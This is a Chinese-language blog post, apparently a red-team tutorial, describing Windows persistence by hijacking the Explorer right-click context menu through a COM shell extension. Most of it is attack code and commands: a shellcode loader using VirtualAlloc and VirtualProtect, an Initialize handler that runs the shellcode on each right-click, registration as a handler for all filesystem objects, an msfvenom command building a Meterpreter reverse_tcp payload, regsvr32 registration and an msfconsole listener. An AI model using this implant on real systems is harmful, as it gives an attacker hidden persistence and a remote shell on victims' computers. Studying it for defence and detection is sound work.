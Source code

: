```yaml
---
layout: post
title: 持久化 - 上下文菜单
date: '2023-03-29 16:12:57'
tags:
- persistence
---
```


上下文菜单为用户提供了快捷方式，以执行许多操作。上下文菜单通过右键单击调用，对于每个 Windows 用户来说，这是一个非常常见的操作。在攻击性操作中，通过在用户尝试使用上下文菜单时执行 shellcode，可以将此操作武器化以实现持久化。

[RistBS](https://twitter.com/RistBS) 开发了一个名为 [ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) 的 POC，可以通过注册 COM 对象利用上下文菜单实现持久化。使用“VirtualAlloc”函数以分配存储可执行的 shellcode 的内存区域。

    void InjectShc() 
    {
        DWORD dwOldProtect = 0;
        LPVOID addr = VirtualAlloc( NULL, sizeof( buf ), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE );
        memcpy( addr, buf, sizeof( buf ) );
     
        VirtualProtect( addr, sizeof( buf ), PAGE_EXECUTE_READ, &dwOldProtect );
     
        ( ( void( * )() )addr )();
    }

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="assets/img/blog/imported/persistence-Context-Menu---VirtualAlloc.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – VirtualAlloc</figcaption></figure>

下面的代码用于接收有关用户将要选择的组件的信息，“CreateThread”将创建一个新线程来执行 shellcode。

    // 此函数通过创建新线程并注入shellcode来初始化上下文菜单扩展。 
    // 它还检查数据对象是否为空，如果为空，则返回S_OK。 
    IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID )
    {
        DWORD tid = NULL;
        CreateThread( NULL, 1024 * 1024, ( LPTHREAD_START_ROUTINE )InjectShc, NULL, 0, &tid );
     
        if ( NULL == pDataObj ) {
                    if ( pidlFolder != NULL ) {
                    }
            return S_OK;
        }
            return S_OK;
    }

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="assets/img/blog/imported/persistence-Context-Menu---Initialize---CreateThread.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – Initialize &amp; CreateThread</figcaption></figure>

“QueryInterface”方法将查询接口集合的对象。

    IFACEMETHODIMP FileContextMenuExt::QueryInterface(REFIID riid, void **ppv)
    {
        // 定义 QITAB 数组，用于存储 COM 接口
        static const QITAB qit[] = 
        {
            QITABENT( FileContextMenuExt, IContextMenu ), // 右键菜单接口
            QITABENT( FileContextMenuExt, IContextMenu2 ), // 右键菜单接口 2
            QITABENT( FileContextMenuExt, IContextMenu3 ), // 右键菜单接口 3
            QITABENT( FileContextMenuExt, IShellExtInit ), // Shell 扩展接口
            { 0 },
        };
        // 调用 QISearch 方法，查找指定的 COM 接口
        return QISearch( this, qit, riid, ppv );
    }

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="assets/img/blog/imported/persistence-Context-Menu---QueryInterface-1.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – QueryInterface</figcaption></figure>

上下文菜单处理程序将被注册为 COM 对象，因此将调用“RegisterInprocServer”函数。

        // 注册上下文菜单扩展
        // 将当前模块注册为一个 in-process COM 服务器
        hr = RegisterInprocServer( szModule, CLSID_FileContextMenuExt, L"ContextMenuHijack.FileContextMenuExt Class", L"Apartment" );
        if ( SUCCEEDED( hr ) ) {
            // 将当前对象注册为所有文件系统对象的上下文菜单处理程序
            hr = RegisterShellExtContextMenuHandler( L"AllFilesystemObjects", CLSID_FileContextMenuExt, L"ContextMenuHijack.FileContextMenuExt" );
        }
             
        return hr;
    }

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="assets/img/blog/imported/persistence-Context-Menu---RegisterInprocServer.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – RegisterInprocServer</figcaption></figure>

使用 Metasploit 框架的“msfvenom”生成 shellcode 并写入文本文件中。

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=4444 EXITFUNC=thread -f c > shellcode.txt`

<figure class="kg-card kg-image-card"><img src="assets/img/blog/imported/persistence-Context-Menu-msfvenom-shellcode.png" class="kg-image" alt loading="lazy"></figure>

将 shellcode 放到代码中，代码编译完成，将生成一个 DLL。使用程序“regsvr32”将 DLL 注册到操作系统中。

<figure class="kg-card kg-image-card kg-card-hascaption"><img src="assets/img/blog/imported/persistence-Context-Menu---DLL-Register-Server.png" class="kg-image" alt loading="lazy" ><figcaption>Context Menu – DLL Register Server</figcaption></figure>

`regsvr32 ContextMenuHijack.dll`

使用 msfconsole 进行监听，一旦用户在 Windows 环境中对对象（文件或文件夹）执行右键单击操作，代码将被执行，并建立通信通道。

    $ msfconsole
    msf6 > use exploit/multi/handler
    msf6 > set LHOST 10.211.55.2
    msf6 > run

## References

> https://github.com/RistBS/ContextMenuHijack  
> https://ristbs.github.io/2023/02/15/hijack-explorer-context-menu-for-persistence-and-fun.html

